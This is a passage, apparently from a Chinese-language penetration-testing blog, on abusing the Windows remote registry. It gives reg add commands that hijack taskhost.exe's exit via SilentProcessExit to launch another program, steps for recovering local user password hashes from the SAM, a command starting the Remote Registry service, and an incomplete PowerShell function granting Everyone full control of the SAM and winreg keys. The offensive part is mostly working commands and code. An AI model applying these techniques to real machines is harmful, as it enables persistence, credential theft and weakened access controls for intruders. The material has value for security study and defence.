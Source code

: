 劫持taskhost.exe进程的结束：

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskhost.exe" /v GlobalFlag /t REG_DWORD /d 512
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\taskhost.exe" /v ReportingMode /t REG_DWORD /d 1
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\taskhost.exe" /v MonitorProcess /t REG_SZ /d "c:\windows\system32\calc.exe"
```

**注：**

劫持taskhost.exe进程的结束时，如果选择calc.exe，会弹框提示，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-12-18/3-1.png)

## 0x03 利用方法2：获取SAM文件中的用户hash
---

通过注册表的SAM文件，能够还原出当前系统的本地用户hash，详细方法可参考之前的文章[《渗透技巧-通过SAM数据库获得本地用户hash》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87SAM%E6%95%B0%E6%8D%AE%E5%BA%93%E8%8E%B7%E5%BE%97%E6%9C%AC%E5%9C%B0%E7%94%A8%E6%88%B7hash/)

简要流程如下：

1. 读取注册表项`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`下的键值JD、Skew1、GBG和Data中的内容，拼接成syskey
2. 读取注册表项`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`下每个用户中F项和V项的内容，使用syskey进行一系列的解密

所以如果能够访问远程计算机的注册表文件，就能够还原出远程计算机所有本地用户的hash

在利用上需要注意`HKLM\SAM\SAM`的默认访问权限为`"NT AUTHORITY\SYSTEM"`(Administrator没有访问权限)，想要远程读取，还需要对这个注册表项及子项添加ACL

利用流程如下：

### 1、开启Remote Registry服务

```
net start remoteregistry
```

### 2、添加ACL(Access Control List)

注册表位置如下：

- HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg
- HKEY_LOCAL_MACHINE\SAM\SAM及子项


对以上注册表项添加用户Everyone的完全访问权限，powershell代码如下：
(在192.168.112.128上以System权限执行)

```
function Add-RegistryACL{
[CmdletBinding()]
Param (
[Parameter(Mandatory = $True)]
[String]
[ValidateNotNullOrEmpty()]
$Path
)
$acl = Get-Acl -Path $Path
$person = [System.Security.Principal.NTAccount]"Everyone"
$access = [System.Security.AccessControl.RegistryRights]"FullControl"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"ObjectInherit,ContainerInherit"
$propagation = [System.Security.AccessControl.PropagationFlags]"None"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
```